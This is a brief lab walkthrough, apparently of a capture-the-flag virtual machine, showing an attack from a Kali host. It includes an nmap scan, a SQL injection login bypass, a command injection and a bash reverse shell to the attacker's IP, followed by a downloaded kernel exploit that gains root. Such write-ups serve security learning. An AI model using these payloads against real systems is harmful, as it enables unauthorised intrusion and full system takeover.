

Kali machine: 172.16.93.155
Target machine: 172.16.93.164
==========================================================
nmap -sV -p- 172.16.93.164
Starting Nmap 7.25BETA1 ( https://nmap.org ) at 2017-05-27 14:45 BRT
Nmap scan report for 172.16.93.164
Host is up (0.00028s latency).
Not shown: 65528 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 3.9p1 (protocol 1.99)
80/tcp open http Apache httpd 2.0.52 ((CentOS))
111/tcp open rpcbind 2 (RPC #100000)
443/tcp open ssl/http Apache httpd 2.0.52 ((CentOS))
631/tcp open ipp CUPS 1.1
840/tcp open status 1 (RPC #100024)
3306/tcp open mysql MySQL (unauthorized)
MAC Address: 00:0C:29:09:CF:BC (VMware)
After looking at port 80 and 443 open, I accessed the page on port 80.

I tried to apply sqli and got success (1' OR 1=1#), and I accessed the admin area.

I tested the localhost address to see if the link was working. It was all right!
Then I tested the following argument: localhost; ls

Returned two .php files ! :)
On the kali machine, I opened a connection on port 444 and passed the following parameter on machine target:
localhost; /bin/bash -i >& /dev/tcp/172.16.93.155/444 0>&1
Getting the kernel version of linux (2.6.9) I found the following exploit https://www.exploit-db.com/exploits/9545/.
I started apache on my machine and put file 9545.c in / var / www / html / and then downloaded it to target machine with wget. I compiled it as described in the file and got root access.